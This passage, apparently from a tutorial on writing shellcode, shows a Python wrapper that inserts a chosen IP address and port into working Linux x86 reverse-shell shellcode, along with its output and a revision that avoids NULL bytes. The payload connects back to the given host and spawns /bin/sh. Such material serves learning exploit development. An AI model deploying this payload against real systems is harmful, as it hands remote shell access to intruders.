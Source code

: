 ```

shellcode = shellcode.replace("[p2]", second_port_val)
shellcode = shellcode.replace("[p1]", first_port_val)

print "Final Shellcode:"
print shellcode
```

Using our wrapper:

```
root@kali:~/Documents/revshell# python wrapper.py 127.0.0.1 9005
Chosen ip: 127.0.0.1
Chosen port: 9005
\xc6\x44\x24\x03\x7f
\xc6\x44\x24\x02\x0
\xc6\x44\x24\x01\x0
\xc6\x04\x24\x1
1st port: \x2d
2nd port: \x23

Ammending shellcode...
Final Shellcode:
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xc6\x04\x24\x1\xc6\x44\x24\x01\x0\xc6\x44\x24\x02\x0\xc6\x44\x24\x03\x7f\x51\x66\x68\x23\x2d\x66\x6a\x02\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\xb1\x02\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\x31\xc0\xb0\x0b\xcd\x80
```

Slightly hinted at before, we can see the above out has two instances of NULL bytes due to the address containing two zeros (127.0.0.1). Due to the IP being split up into 4 chunks and then pushed onto the stack separately, these 0 values still exist. A check can be performed in the python to ignore these two instructions if the value required is a 0. They can safely be ignored as the target address is XOR’d before hand - giving us the 0 value within the target byte already. The following is the python wrapper after being adapted to handle any lone zero’s in the specified IP address:

The second draft of our Python wrapper can be seen below, preventing NULL bytes from being used in our target IP address, the main change is the four 'if statements’ that check the hex value of the IP chunk is not equal to “0”, if it is, the chunk of instructions is cleared.

```
import sys
import socket

shellcode = (
    "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3"
    "\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01"
    "\\x89\\xfb\\x31\\xc9\\x51[i4][i3][i2][i1]\\x51\\x66\\x68[p2][p1]"
    "\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0"
    "\\xb0\\x3f\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89"
    "\\xfb\\xb1\\x01\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x02"
    "\\xcd\\x80\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f"
    "\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\x31\\xc0\\xb0"
    "\\x0b\\xcd\\x80"
)

fourth_ip_asm = "\\xc6\\x04\\x24\\x[4]"          # movb   $0x7f,(%esp)   (127)
third_ip_asm = "\\xc6\\x44\\x24\\x01\\x[3]"      # movb   $0x1,0x1(%esp) (1)
second_ip_asm = "\\xc6\\x44\\x24\\x02\\x[2]"     # movb   $0x1,0x2(%esp) (1)
first_ip_asm = "\\xc6\\x44\\x24\\x03\\x[1]"      # movb   $0x1,0x3(%esp) (1)

if len(sys.argv) != 3:
    print 'Usage: ' + sys.argv[0] + ' <ip> <port>'
    sys.exit()

```